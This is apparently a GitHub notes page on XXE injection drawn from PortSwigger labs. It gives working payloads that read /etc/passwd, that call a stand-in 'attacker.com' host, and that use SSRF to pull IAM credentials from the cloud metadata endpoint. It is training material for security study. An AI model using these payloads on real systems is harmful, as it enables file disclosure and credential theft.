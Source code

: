 # XML external entity (XXE) Injection 💉
  This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser.

  This attack may lead to disclosure of confidential data, denial of service, SSRF, port scanning from the perspective of the machine where parser is located.

  ### Types of XXE Attacks:
  - ***Exploiting XXE to retrieve files***: Where an external entity is defined containing the contents of the file and retured in applications response.
  - ***Exploiting XXE to perform SSRF***: Where an external entity is defined as URL to a back-end systems.
  - ***Exploiting blind XXE exfiltrate data out-of-band***: Sensitive data is transmitted from application server to a system that the atatcker controls.
  - ***Exploiting blind XEE to retrieve data via error message***: Attacker trigger a parsing error message containing sensitive data.

---

  ### Exploiting XXE using external entity to retrieve files.

  Following example is referred from port swingger web security academy, for more details check the reference section below.

  A shopping application (intentionally vulnerable web app) checks for stocks level for a product by submitting a following XML to the server.

  ```
    <?xml version="1.0" encoding="UTF-8"?>
    <stockCheck><productId>381</productId></stockCheck>
  ```

  To exploit XXE vulnerability and the task is to retrieve the contents of file /etc/passwd.

  ```
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <stockCheck><productId>&xxe;</productId></stockCheck>
  ```

  Once the crafted payload is sent to the server, the content of the file can be retrieved from the application's response.

  ![image](https://github.com/user-attachments/assets/ac82c5d3-06c8-41c5-a877-2a17d2bd9b7c)

  ---

  ### Exploiting XXE to perform SSRF

  XXE Attack can potentially induce the server-side application to make HTTP request to any URL that the server can access.

  To exploit such attack, we need to define an external XML entity that contains an URL that we want to target and use the defined entity within a data value which makes us be able to see response from target URL within the application's response.

  Example XXE to perform SSRF attacks:

  ```
    <!DOCTYPE foo [<!ENTITY xss-ssrf SYSTEM "http://attacker.com "> ]>
  ```

  Performing XXE attack on the lab on portswinger, view the reference section on more details about the lab.

  The following code is the crafted payload to retrieve the application's sensitive data by using above SSRF attack method mentioned.

  ```
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY xxe-ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ] >
    <stockCheck>
      <productId>
        &xxe-ssrf;
      </productId>
      <storeId>
        1
      </storeId>
    </stockCheck>
  ```

  This response for this payload retrieves teh sensitive contents of the application.

  ![image](https://github.com/user-attachments/assets/08b1c780-06aa-45a5-90cb-2a7b16ec607a)

---
  ### Blind XXE Injection

  Blind injection occurs when there is no response from application.
  Therefore direct retrieval of files from server-side is not possible.
  
  Use out of band techniques to exploit such vulnerabilities and extract data , also trigger parser error messages to disclose      sensitive data.

  
  
